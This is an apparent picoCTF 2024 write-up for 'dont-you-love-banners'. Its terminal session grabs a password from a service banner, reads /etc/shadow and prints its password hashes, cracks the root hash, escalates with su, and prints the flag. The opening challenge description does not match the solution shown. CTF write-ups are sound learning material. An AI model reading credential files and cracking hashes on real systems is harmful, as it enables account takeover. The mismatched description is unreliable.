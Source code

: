 
<!DOCTYPE html>
<html>

<body>
    <h1>dont-you-love-banners picoctf2024</h1>

    <h2>Challenge Description</h2>
    <p>   AUTHOR: ABRXS, PR1OR1TYQ

Description
Can you handle function pointers?
Download the binary <a href="https://artifacts.picoctf.net/c_mimas/49/chall">here</a> .
Download the source <a href="https://artifacts.picoctf.net/c_mimas/49/chall.c">here</a> .
Additional details will be available after launching your challenge instance.
-------------------------------------------------------
Connect with the challenge instance here:
nc mimas.picoctf.net 52816 
</p>
 
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
  we connect nc tethys.picoctf.net 52199 and see password needed to bec connect to 
nc tethys.picoctf.net 61399 and enter it and connect to that after answer some quetions 
and see can't use flag.txt that have no permissions  for us.so after some search see that can use this command for get password and export hash
(see <a href="https://phantom1ss.github.io/blog/2024/pico2024/dont-you-love-banners/root.bash">root.bash</a> for find correct value exported)
and after export value use it in john for get password and find flag
<pre>
┌──(kali㉿kali)-[~/…/blog/2024/pico2024/dont-you-love-banners]
└─$ nc tethys.picoctf.net 52199
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
                                                              
┌──(kali㉿kali)-[~/…/blog/2024/pico2024/dont-you-love-banners]
└─$ nc tethys.picoctf.net 61399
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
^Z
zsh: suspended  nc tethys.picoctf.net 61399
                                                              
┌──(kali㉿kali)-[~/…/blog/2024/pico2024/dont-you-love-banners]
└─$ nc tethys.picoctf.net 61423
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?

Lol, good try, try again and good luck

What is the top cyber security conference in the world?
defcon
the first hacker ever was known for phreaking(making free phone calls), who was it?
draper
player@challenge:~$ ls
ls
banner  text
player@challenge:~$ cat text
cat text
keep digging
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cd /root
cd /root
player@challenge:/root$ ls 
ls
flag.txt  script.py
player@challenge:/root$ cat flag.txt
cat flag.txt
cat: flag.txt: Permission denied
player@challenge:/root$ cat /etc/shadow
cat /etc/shadow
root:$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:19791:0:99999:7:::
daemon:*:19507:0:99999:7:::
bin:*:19507:0:99999:7:::
sys:*:19507:0:99999:7:::
sync:*:19507:0:99999:7:::
games:*:19507:0:99999:7:::
man:*:19507:0:99999:7:::
lp:*:19507:0:99999:7:::
mail:*:19507:0:99999:7:::
news:*:19507:0:99999:7:::
uucp:*:19507:0:99999:7:::
proxy:*:19507:0:99999:7:::
www-data:*:19507:0:99999:7:::
backup:*:19507:0:99999:7:::
list:*:19507:0:99999:7:::
irc:*:19507:0:99999:7:::
gnats:*:19507:0:99999:7:::
nobody:*:19507:0:99999:7:::
_apt:*:19507:0:99999:7:::
systemd-network:*:19791:0:99999:7:::
systemd-resolve:*:19791:0:99999:7:::
messagebus:*:19791:0:99999:7:::
sshd:*:19791:0:99999:7:::
player:$6$BCCW51fi$UI/5W01uG2.6EmxktMtZXbJQwrgDlv213cLwu7RxaIQHnRZXwKZ3yjuyNKf86KlSwbvAOp3YozpNVrBeKW9Ls0:19791:0:99999:7:::
player@challenge:/root$ cat flag.txt
cat flag.txt
cat: flag.txt: Permission denied
player@challenge:/root$ sudo cat flag.txt
sudo cat flag.txt
-su: sudo: command not found
player@challenge:/root$ bash
bash
player@challenge:/root$ cat flag.txt
cat flag.txt
cat: flag.txt: Permission denied
player@challenge:/root$ sudo
sudo
bash: sudo: command not found
player@challenge:/root$ su
su
Password: iloveyou

root@challenge:~# ls
ls
flag.txt  script.py
root@challenge:~# cat flag.txt
cat flag.txt
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_68ca8b23}
root@challenge:~#              
</pre>
and can see flag after run cat.
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_68ca8b23}
</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for connect nc and find password and remove permissionwit connect to su  and get flag</p>
</body>
</html>

 


 




